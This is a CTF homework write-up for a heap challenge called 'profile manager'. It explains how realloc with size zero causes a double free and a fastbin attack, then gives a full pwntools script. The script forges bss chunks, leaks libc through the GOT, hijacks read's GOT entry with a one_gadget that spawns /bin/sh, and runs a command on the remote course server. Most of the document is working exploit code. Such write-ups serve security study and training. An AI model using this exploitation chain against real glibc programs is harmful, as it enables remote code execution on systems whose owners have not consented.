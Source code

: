 # HW4
## profile manager 150
* Trick: `realloc( ptr , 0 )` do the things that `free( ptr )`, according to glibc malloc/malloc.c:
```c
void *
__libc_realloc (void *oldmem, size_t bytes)
{
  mstate ar_ptr;
  INTERNAL_SIZE_T nb;         /* padded request size */

  void *newp;             /* chunk to return */

  void *(*hook) (void *, size_t, const void *) =
    atomic_forced_read (__realloc_hook);
  if (__builtin_expect (hook != NULL, 0))
    return (*hook)(oldmem, bytes, RETURN_ADDRESS (0));

#if REALLOC_ZERO_BYTES_FREES
  if (bytes == 0 && oldmem != NULL)
    {
      __libc_free (oldmem); return 0;
    }
#endif
```
* `Double free` -> `fastbin attack`, but only for 0x20 size of fastbin.
* Use `age` on `bss` to do `fastbin attack` on the `bss`, only 0x10 length could write for us so i leave fake size for the next `fastbin attack`.
* Ruin the name pointer but overwrite desc pointer because of `strdup`, damn :(
* We can fix name pointer because of this code:
```c
    p[i].name = strdup(buf);
    ...
    if(size < 0x90){
		puts("Length must be larger than 0x90");
		free(p[i].name);
		return ;
	}
```
* It let us fix the name pointer with valid address, but doesn't change the desc pointer we forged.
* With the desc pointer is readable and writable , we can leak libc from got, and also hijack them.
* read -> one

```python
#!/usr/bin/env python2
# -*- coding: ascii -*-
from pwn import *

# FLAG{I_HAVE_N0_1DEA}

context.arch = 'amd64'

e , l = ELF('./profile_manager-53eb91391ff43a88dfebcde578afd125d2c681f7') , ELF('./libc.so.6-14c22be9aa11316f89909e4237314e009da38883')

host , port = 'csie.ctf.tw' , 10140

#y = remote(host,port)
#y = process( './profile_manager' , env = {'LD_PRELOAD':'./libc.so.6'} )
#y = process( './profile_manager' )
#print util.proc.pidof(y)
#raw_input('>')

def add( name , age , size , data ):
    y.sendafter( 'ice :' , '1' )
    y.sendafter( 'Name :' , name )
    y.sendafter( 'Age :' , str( age ) )
    y.sendafter( 'ion :' , str( size ) )
    if size >= 0x90:
    	y.sendafter( 'ion :' , data )

def sho( idx ):
    y.sendafter( 'ice :' , '2' )
    y.sendafter( 'ID :' , str( idx ) )

def edt( idx , name , age , data ):
    y.sendafter( 'ice :' , '3' )
    y.sendafter( 'ID :' , str( idx ) )
    y.sendafter( 'Name :' , name )
    if name == "\x00" : return
    y.sendafter( 'Age :' , str( age ) )
    y.sendafter( 'ion :' , data )

def dle( idx ):
    y.sendafter( 'ice :' , '4' )
    y.sendafter( 'ID :' , str( idx ) )


'''
Bad VPN QAQ
So need to connect many times for sure.

* realloc( ptr , 0 ) -> free( ptr ) 
God job :)
'''

while True:

    y = remote(host,port)
    
    add( 'yuawn' , 0x21 , 0x200 , '7' * 0x70 ) # calloc yuawn :D
    add( 'yuawn' , 0x21 , 0x200 , '7' * 0x70 )
    add( 'yuawn' , 0x21 , 0x200 , '7' * 0x70 )

    try:
        edt( 1 , '\x00' , 0x21 , '7' ) # prepare double free for fastbin attack
        edt( 0 , '\x00' , 0x21 , '7' ) # bypass the checking
        edt( 1 , '\x00' , 0x21 , '7' )

        edt( 1 , p64( 0x602100 + 0x30 - 4 ) + '\x00' , 0x21 , 'a' ) # forge fake fd

        add( 'a' * 0x7 , 0x21 , 0x90 , '7' * 0x70 ) # take previous one
    
        add( 'D' * 0xc + '\x21' , 0x21 , 0x90 , '7' * 0x70 ) # modify fake size 0x21 on bss

        dle( 0 )
        dle( 1 )

        edt( 3 , p64( 0x602100 + 0x40 ) , 0x21 , 'a' ) # fastbin attack again

        add( 'yauwn' , 0x21 , 0x90 , '7' * 0x70 )

        add( 'a' * 8 + p64( e.got['read'] ) , 0x21 , 0x90 , '7' * 0x70 ) # overwite p[3] , it would ruin name pointer , because of strdup :()

        edt( 0 , '\x00' , 0 , '' ) # make a 0x21 fastbin chunk in freed list, cause the last one is invalid

        add( 'yauwn' , 0 , -1 , 'D' ) # modify p[3] name pointer with correct one, but doesn't change desc pointer we overwrote.

        sho( 3 ) # leak libc

        y.recvuntil( 'Desc : ' )
        l.address += u64( y.recvline()[:-1].ljust( 8 , '\x00' ) ) - l.symbols['read']
        log.success( 'libc -> ' + hex( l.address ) )

        # https://github.com/david942j/one_gadget
        '''
        0xf1117	execve("/bin/sh", rsp+0x70, environ)
        constraints:
            [rsp+0x70] == NULL
        '''

        one = 0xf1117

        edt( 3 , 'yuawn' , 0x7777777 , p64( l.address + one ) ) # edit it for gothijacking read_got to one

        y.sendafter( 'ice :' , '1' ) # trigger read -> one

        sleep( 0.7 )

        y.sendline( 'cat /home/`whoami`/flag' )

        y.recvuntil( 'Name :' )

        y.interactive()
        y.close()
        break
    except:
        y.close()

```
